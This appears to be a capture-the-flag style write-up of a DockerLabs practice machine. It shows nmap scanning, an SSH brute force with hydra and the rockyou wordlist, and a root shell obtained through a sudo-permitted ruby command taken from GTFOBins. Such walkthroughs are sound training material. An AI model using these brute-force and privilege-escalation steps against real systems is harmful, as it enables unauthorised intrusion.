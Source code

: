 ![image](https://github.com/user-attachments/assets/942a080f-db21-4e2e-86bf-b463471fefa3)

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250123104046](https://github.com/user-attachments/assets/b3f900ee-3938-45f7-b054-391c4467bbc8)

## **We have a website and we are going to investigate**

![Pasted image 20250123104131](https://github.com/user-attachments/assets/7b54d8a6-33b2-4845-b1c1-5ad1a324e764)

## **The web site has nothing but if we look at the source code we can find some information**

![Pasted image 20250123104207](https://github.com/user-attachments/assets/cb6c36a3-994a-413a-97be-245609dc77fb)

## **we already have two possible users juan and camilo now we will apply fuzing to see if we can find hidden directories with more information.**

![Pasted image 20250123104438](https://github.com/user-attachments/assets/13c47273-cf20-4a4d-8a4b-7bd7315966e9)

## **But we do not have access**

![Pasted image 20250123104454](https://github.com/user-attachments/assets/300178dd-eecb-401f-a644-7ce4cc9a2105)

## **But we have not been able to find more information than two users so we will do a brute force attack for this we will create a file which contains the two possible users found and we will use a dictionary to find possible access passwords.**
```bash
nano users.txt
```
![Pasted image 20250123104723](https://github.com/user-attachments/assets/5dd0498a-1238-4afa-a643-05e28233b554)

## **Now we will do the brute force attack**
```bash
hydra -L /home/loestbazan/DockerLabs/MaquinasFaciles/Vacaciones/content/users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```
![Pasted image 20250123111820](https://github.com/user-attachments/assets/7be9c876-37dd-4851-a0fe-e3ae7a11db38)

## **After obtaining the password **password1** we will log in via ssh**
```bash
ssh camilo@172.17.0.2
```
![Pasted image 20250123110531](https://github.com/user-attachments/assets/48b45fb3-7324-43bb-920b-be29af769f70)

## **After a brief investigation in the directories we found a password for juan because if we looked in the source code we saw that he had left camilo an email.**
```bash
cd /var/mail/camilo/correo.txt
```
![Pasted image 20250123110725](https://github.com/user-attachments/assets/028852c6-815f-4c17-bf3a-f711cb80fc83)

## **We will now connect**
```bash
ssh juan@172.17.0.2
```
![Pasted image 20250123110851](https://github.com/user-attachments/assets/43661664-c4fc-4548-9b4f-94d5bd3ea4e3)
```bash
sudo -l
```
![Pasted image 20250123110931](https://github.com/user-attachments/assets/83c284a5-3a04-4feb-ae7a-cd7c9348736e)

## **On our GTFObins page, we are looking for a way to elevate privileges.**

![Pasted image 20250123111046](https://github.com/user-attachments/assets/fdabeddd-1f8a-4e14-850e-e1bda3c64c31)
![Pasted image 20250123111109](https://github.com/user-attachments/assets/c9308c4d-3a34-4319-b0db-b59dbdbac7e6)
```bash
sudo ruby -e 'exec "/bin/sh"'
```
![Pasted image 20250123111216](https://github.com/user-attachments/assets/be95d720-60be-422f-a919-97b178426f2a)
